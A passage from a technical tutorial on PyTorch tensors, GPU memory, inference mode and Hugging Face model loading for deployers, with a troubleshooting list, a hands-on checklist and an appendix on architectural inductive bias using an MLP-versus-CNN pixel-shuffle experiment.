# same name doesn't mean same thing; in particular don't trust a -vllm suffix in a repo name
# (c) wrong output style / won't stop → diff generation_config.json, check eos_token_id (§7)
# ⑨ CUDA error: device-side assert triggered
# most likely an out-of-range embedding lookup: token id ≥ vocab_size, i.e. tokenizer and weights don't match
# the reported line can't be trusted (asynchronous, §2); rerun with CUDA_LAUNCH_BLOCKING=1 to locate it
# ⑩ CUBLAS_STATUS_NOT_INITIALIZED / CUBLAS_STATUS_ALLOC_FAILED
# usually OOM in disguise: VRAM was already gone when cuBLAS tried to allocate its workspace; check as for ④
# ⑪ Inference tensors cannot be saved for backward
# something computed under inference_mode was used for training (§4): use no_grad for that step, or .clone()
The order of thinking for OOM (measure first, then act):
- First tell who's eating it: weights are fixed (
parameter count × bytes, computable in your head per §3); activations and caches grow with batch, sequence length and concurrency. The remedies for the two are completely different. - What the tensor layer can do: lower the batch, shorten the sequence, switch to a smaller dtype, check whether broadcasting blew up a big matrix (⑦), confirm
inference_mode()is really on. - What the model layer can do: switch to quantized weights (AWQ/GPTQ/FP8), which changes only "bytes per parameter" and touches neither the structure nor the tokenizer.
- The engine layer and multiple GPUs (
gpu_memory_utilization, KV cache quantization, tensor parallelism and so on) — belong to Part 2.
10. A 30-minute hands-on checklist (verify you really got it)
Open Python on any L20, run these, and you're set:
import torch
# 1. confirm the environment
print(torch.__version__, torch.version.cuda, torch.cuda.is_available())
print(torch.cuda.get_device_name(0))
# 2. basic tensor attributes
x = torch.randn(2, 3).cuda().bfloat16()
print(x.shape, x.dtype, x.device, x.is_contiguous())
# 3. device & asynchronous timing (compare with and without synchronize)
import time
a = torch.randn(4096, 4096, device="cuda")
t0 = time.perf_counter()
for _ in range(50): b = a @ a
print("no sync :", time.perf_counter()-t0) # only the "launch" time — absurdly small (milliseconds)
torch.cuda.synchronize(); t0 = time.perf_counter()
for _ in range(50): b = a @ a
torch.cuda.synchronize()
print("with sync:", time.perf_counter()-t0) # this is the time the GPU actually spent computing
# 4. VRAM: watch allocated vs reserved, then compare with nvidia-smi
print(torch.cuda.memory_allocated()/1e6, "MB allocated")
print(torch.cuda.memory_reserved()/1e6, "MB reserved")
del a, b; torch.cuda.empty_cache()
print(torch.cuda.memory_reserved()/1e6, "MB reserved after empty_cache")
# now run nvidia-smi in another terminal: this process still holds a few hundred MB — that's the CUDA context (§2)
# 5. VRAM difference between inference mode and normal mode: the same forward, with or without a graph
import torch.nn as nn
net = nn.Sequential(*[nn.Linear(4096, 4096) for _ in range(8)]).cuda()
x = torch.randn(256, 4096, device="cuda")
torch.cuda.reset_peak_memory_stats()
y = net(x) # default: records the graph, keeps all intermediate activations
print("train-mode peak:", torch.cuda.max_memory_allocated()/1e6, "MB")
del y
torch.cuda.reset_peak_memory_stats()
with torch.inference_mode():
y = net(x) # no graph; each layer can be dropped once computed
print("inference peak :", torch.cuda.max_memory_allocated()/1e6, "MB")
# the difference = 8 layers of intermediate activations [256, 4096] × fp32; more layers, bigger batch, bigger gap
# 6. look at a real model's state_dict (needs pip install transformers; use any HF model you have locally)
# from transformers import AutoModel
# m = AutoModel.from_pretrained("...local path...")
# print(list(m.state_dict().keys())[:10]) # look at the weight naming structure
11. Mental model summary (one page to take away)
+----------------------------------------------------+
| model = structure + weights + tokenizer (§7) |
| config.json safetensors vocab/tokenizer |
+----------------------------------------------------+
| transformers: assembles them into a model (§8) |
| PreTrainedModel(nn.Module) + from_pretrained |
+----------------------------------------------------+
| nn.Module: a function that carries weights (§5) |
| __init__ defines layers / forward chains them |
| state_dict = params + persistent buffers, |
| keys are attribute paths |
+----------------------------------------------------+
| Tensor (§1–§4) |
| Storage + (shape, stride) / device / dtype |
| autograd — always off at inference |
+----------------------------------------------------+
| CUDA / cuBLAS / driver |
+----------------------------------------------------+
- Tensor = a flat block of memory + a way of reading it. transpose changes the stride, broadcasting sets a stride to 0, only
contiguous()really copies — one model explains all three. The price of zero-copy is "non-contiguous", which many kernels won't accept. - shape / dtype / device are the three axes of troubleshooting. 90% of errors can be traced along these three; for the rest, most likely broadcasting quietly changed a shape without an error.
- CUDA is asynchronous: timing must
synchronize(), otherwise you're measuring "launch time";.item()/.cpu()synchronize implicitly; the line number in a CUDA error can't be trusted — addCUDA_LAUNCH_BLOCKING=1when debugging. - numpy defaults to float64, torch to float32:
.float()audio from numpy before feeding it into the model. - VRAM = weights + KV cache + activations + overhead, and the weights part is
parameter count × bytes per parameter(for a sharded model, readtotal_sizefromindex.json). Whatnvidia-smishows is reserved (PyTorch's cache pool) + the CUDA context + what other libraries allocated themselves; it being larger than allocated is normal, not a leak. - bf16 is the modern inference default: the same exponent range as fp32, less prone to NaN, half the VRAM.
- Inference =
model.eval()+inference_mode(). The former changes layer behavior (Dropout / BatchNorm); the latter builds no computation graph — what's saved is that graph and the intermediate activations, which is the whole reason inference uses less VRAM than training. If the output will also feed training, useno_grad(). from_pretraineddoesn't error by default: missing weights are randomly initialized, extra ones dropped, with only a warning.newly initializedin the load log is the prime suspect for "the output is garbage".- A
state_dictkey is "the attribute path from the root module to this tensor". Sofc1.weightandmodel.layers.0.self_attn.q_proj.weightfollow the same rule; and so changing the root or stripping a prefix can "promote" a submodule into a standalone model. - Registration has four tiers:
nn.Parameter(learned) / persistent buffer (not learned but in the file) /persistent=Falsebuffer (not in the file but takes VRAM) / plain attribute (PyTorch doesn't know it exists;.to()doesn't move it). The last tier is the root cause of "some mask forgot.to(device)". - The number in the file ≠ what's there at runtime: a
persistent=Falsebuffer is in VRAM but not in the state_dict; safetensors can't hold "two names pointing to the same storage", so tied weights are stored once. .ptis a container;.safetensorsis a data format. The former can hold any Python object (with the risk of code execution); the latter only a flat name → tensor mapping. This decides that the training side uses the former and the inference side the latter, and that there's necessarily a "training format → inference format" adapter in between.architecturesis a routing key that fails without an error: given an unfamiliar model directory, the first thing to do ishead -5 config.json.- transformers doesn't replace PyTorch; it lifts it up to the "model" level:
PreTrainedModelis literally a subclass ofnn.Module, and its 78 extra methods are the layer it adds.
Next: the engine layer (what vLLM swaps out on top of PyTorch, what Xinference adds on top of that, where your ASR / TTS each belong) is in Part 2.
Appendix: Structure (inductive bias) — the layer that really explains deep learning
This whole appendix answers one question: many people (including you, back then) understand a DNN as "layers of matmul + weights/biases + activations", and nn.Module even "reinforces" that impression. So does structural information actually matter?
1 "It's all matmul" is right, but that's the mechanism, not the explanation
First, knock down an assumption: structure isn't something besides matmul; structure is a constraint on matmul.
- A fully connected layer = unconstrained matmul (every input connects to every output, all weights free).
- A convolution = constrained matmul: sparse (each output connects only to a local window) + weight sharing (the same set of weights reused across positions). It's a linear layer with constraints.
- Attention = also matmul (QKᵀ, softmax, V), with the constraints that the projection matrices are shared across positions + dynamic weighting by content.
So "architecture / structure / inductive bias" is in essence the pattern of constraints you impose on matmul (connectivity, sharing, sparsity). "It's all matmul anyway" is right the way "all matter is atoms" is right — correct, but it can't explain why a bird flies and a stone doesn't. The difference is all in how things are connected.
2 Expressive power vs learnability (the real reason structure matters)
A point that looks contradictory and clears up as soon as it's explained:
- In terms of expressive power, structure "doesn't matter": the universal approximation theorem says a wide enough MLP can approximate any function, so in theory an MLP can represent everything a CNN can.
- But the bottleneck of deep learning was never expressive power; it's whether you can learn the right function from limited data and generalize — and that is decided entirely by the inductive bias (the structure).
An MLP can represent a translation-invariant detector, but it has to learn it the hard way from data, needs a huge number of parameters, and breaks when the shift changes; a CNN welds "locality + translation invariance" into the structure, saving parameters and data and generalizing by construction. The weights are what the network "learns"; the structure is what it's "forced to assume" before learning, and those assumptions decide what it can learn well. That's what "architecture is the prior" means. The history of deep learning is a history of architectures (MLP → CNN → RNN → Transformer, each one "a structure matched to a kind of data"), not a history of "matmul stacked ever bigger".
The precise answer to "does structure matter": ask about expressive power, no; ask about learnability and generalization, it's everything — and practice is dominated by the latter.
3 Case study: what exactly goes wrong when MNIST flattens 28×28 into 784
The first step of the classic "three-layer network on MNIST" flattens the 2-D array into 1-D, and that throws away the spatial structure — your intuition is right, but let's be precise:
- What's lost is not the data (every pixel value is still there; (r,c) just moves to index
r*28+c) but the prior of adjacency: the MLP doesn't know which two slots are neighbors. - But the output is 10 class scores (1-D), so "flattening" has to happen somewhere. The problem isn't "flattening"; it's "flattening at the very first step". The precise version: flattening at the input (with no local processing) is bad; flattening after local feature extraction is fine. A CNN flattens too, just after the conv.
An MLP (multi-layer perceptron) is "adjacency-blind", not "position-blind": each slot has its own weights, so it knows absolute position (that's exactly why shuffling a single test image breaks it); what it lacks is adjacency / translation structure.
The killer demo (mind how it's built): to prove an MLP doesn't use spatial structure, fix one permutation π, apply it to every image (consistently for train and test), and retrain → the accuracy doesn't budge. Shuffling a single test image and feeding it to a normally trained model fails instead (inconsistent before and after), which would actually make people think "the MLP uses spatial structure" — the opposite effect.
Measured (the same digits data, a fixed permutation π applied to the training and test sets, retrained):
| Normal | Fixed shuffle (retrained) | Change | |
|---|---|---|---|
| MLP, 1 hidden layer | 0.967 | 0.964 | −0.003 |
| MLP, 2 hidden layers | 0.976 | 0.975 | −0.001 |
| CNN | 0.983 | 0.972 | −0.010 |
Three things, said once:
- The MLP doesn't budge — it never used locality, so shuffling makes no difference to it.
- The CNN clearly drops — the one point it loses is exactly the value of the prior "neighboring pixels are related".
- After shuffling, the CNN (0.972) is even slightly below the MLP (0.975). This is the sharpest one: once locality is destroyed, the convolution's weight sharing becomes a pure constraint with zero benefit — it can only make things worse.
And under normal conditions the CNN (0.983) beats the best MLP (0.977) by 0.6 points — the part it wins and the part it loses after shuffling are the same thing.
Run it yourself (no data to download; it's there once sklearn is installed): get the data with
load_digits(), split withtrain_test_split, then train annn.Sequential(Linear(64,h), ReLU, Linear(h,10))and the TinyConv above separately; the shuffled version just generatesperm = np.random.permutation(64), reorders both the training and test sets byX[:, perm], and retrains. Results in tens of seconds.Note that
digitshere is 8×8 with 1,797 images, much smaller than MNIST (28×28, 70,000 images), so the absolute numbers won't match the MNIST benchmarks you see elsewhere (single-hidden-layer MLP ~98%, CNN ~99.5%) — but the direction and the relative relationship are exactly the same, and that's what this experiment is meant to show.
A teaching sequence for beginners: plain MLP (baseline) → the shuffle experiment (pin down the problem) → present convolution as "a local mini-MLP with shared weights" (TinyConv, keeping 2-D and postponing the flatten). Teaching CNNs directly isn't scary as long as you frame them as "the locally shared version of TinyNet":
class TinyConv(nn.Module):
def __init__(self):
super().__init__()
self.conv = nn.Conv2d(1, 8, kernel_size=3, padding=1) # 8 local 3×3 mini-MLPs, weights shared across the whole image
self.pool = nn.MaxPool2d(2)
self.fc = nn.Linear(8 * 14 * 14, 10)
def forward(self, x): # x: [B,1,28,28] — keep it 2-D, don't flatten at the input!
x = self.pool(torch.relu(self.conv(x))) # [B,8,14,14]
x = x.flatten(1) # only flatten here, after local processing
return self.fc(x)
4 Position information: what MLPs, CNNs and Transformers each lack, and how each makes up for it
Anyone who has read about transformers has seen positional encoding (PE). But the three architectures lack different things, and the root is whether weights are shared across positions:
| Architecture | Weights across positions | Absolute position | Adjacency / order | What to do |
|---|---|---|---|---|
| MLP | Not shared (each slot its own) | Knows it | No notion of adjacency | Switch to a CNN |
| CNN | Shared across space | Weakened (translation-equivariant) | Keeps adjacency (the grid stays intact) | Locality is built in; usually no PE needed |
| Transformer | Shared across the sequence + set operations | Doesn't know it at all | Order completely lost | Inject PE explicitly |
- The MLP lacks adjacency (made up for by the CNN), not position.
- Attention is the one that's truly "position-blind": W_Q / W_K / W_V are shared across positions and relations are computed only from content (Q·K), with position nowhere in the formula → shuffle the token order and the output just gets shuffled along with it; it treats the sequence as a set. "the cat sat" and "sat the cat" are the same bag of words to it → PE must be injected.
Shared weights buy efficiency and translation generalization at the cost of absolute position; the CNN still keeps the 2-D grid (adjacency intact) and needs no explicit fix, while attention loses order completely and can't do without one. Your original intuition that "near versus far matters" fits relative positional encoding especially well — the RoPE used by Qwen is a relative PE, which makes attention strength depend directly on the relative distance between two tokens.
5 What it means for you (as a deployer / model selector)
- Running / debugging / deploying a model (running vLLM, chasing OOM, tuning batch) — the mechanical view of "matmul + autograd" is basically enough; structure is secondary.
- Choosing / designing a model (what a deployer is really doing) — structure is decisive. "Is this model an encoder or a decoder, does it emit everything at once or generate token by token, does it have a cache that grows with the sequence" directly decides which engine it should use and whether it can benefit from concurrency. The whole of Part 2 is built on this structural criterion. One level up, "end-to-end multimodal vs a cascaded ASR → LLM → TTS" is also a trade-off between two structures, not a tuning question.
To close in one sentence: the network learns the weights; the architect chooses the structure; the structure decides the most the weights can learn. "It's all matrix operations" isn't wrong; it just stops at the substrate and never reaches the layer that really explains everything.